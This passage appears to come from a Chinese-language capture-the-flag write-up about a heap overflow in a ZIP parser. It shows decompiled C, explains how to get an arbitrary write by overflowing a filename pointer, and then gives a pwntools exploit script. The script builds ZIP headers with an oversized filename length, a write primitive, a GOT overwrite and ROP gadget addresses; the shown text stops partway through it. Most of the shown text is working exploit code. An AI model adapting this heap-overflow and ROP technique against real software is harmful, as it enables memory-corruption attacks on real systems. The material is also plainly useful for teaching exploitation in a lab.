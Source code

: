 ```c
    fread(*(*(*a3_output + j) + 0x2ELL), 1uLL, *(*(*a3_output + j) + 28LL), a1_FILE_zip);// 28: File name length (n)
                                                // 46 ~ 46+n: filename
    fseek(a1_FILE_zip, *(*(*a3_output + j) + 0x1ELL) + *(*(*a3_output + j) + 0x20LL), 1);// 30: Extra field length (m)
                                                // 32: File comment length (k)
  }
```

而如果能透過 overflow 蓋到下一個 chunk 的 filename pointer，就可以任意寫入，不過這題麻煩的是沒辦法 leak libc + canary，因此要想辦法透過寫 GOT 以及堆 ROP 來 exploit:

```python
#!/usr/bin/python3

from pwn import *

WORD = 2
DWORD = 4

context.arch = 'amd64'

off_cendir = 0 # Offset of start of central directory
num_cendir = 0 # Total number of central directory records
___stack_chk_fail_got = 0x602030
ret = 0x400639
readfile = 0x400c53
bss = 0x602900

"""
len: 0x2e
Central directory file header
"""
def gen_chunk(fn_len):
    cendir_chunk = b""
    cendir_chunk += b'\x02\x01KP'[::-1] # magic
    cendir_chunk = cendir_chunk.ljust(0x1c, b'\x00') # dummy
    cendir_chunk += p16(fn_len) # File name length --> heap overflow
    cendir_chunk += p16(0) # Extra field length
    cendir_chunk += p16(0) # File comment length
    # ---- 0x20 ----
    cendir_chunk = cendir_chunk.ljust(0x2e, b'\x00') # dummy

    return cendir_chunk

def write_to(dst, payload):
    global num_cendir
    num_cendir += 2
    
    chunk1 = gen_chunk(0x50+0x2e+0x8)
    chunk2 = gen_chunk(len(payload)) # <= 0x48
    fn1 = b'A'*0x48 + p64(0x41) + b'B'*0x2e + p64(dst)
    fn2 = payload

    return chunk1 + fn1 + chunk2 + fn2

pop_rdi_ret = 0x401043
pop_rsi_r15_ret = 0x401041
leave_ret = 0x4009eb
ret = 0x400639
readfile = 0x400c5b
flag_addr = bss + 7*0x8
new_rbp = bss+0x100
```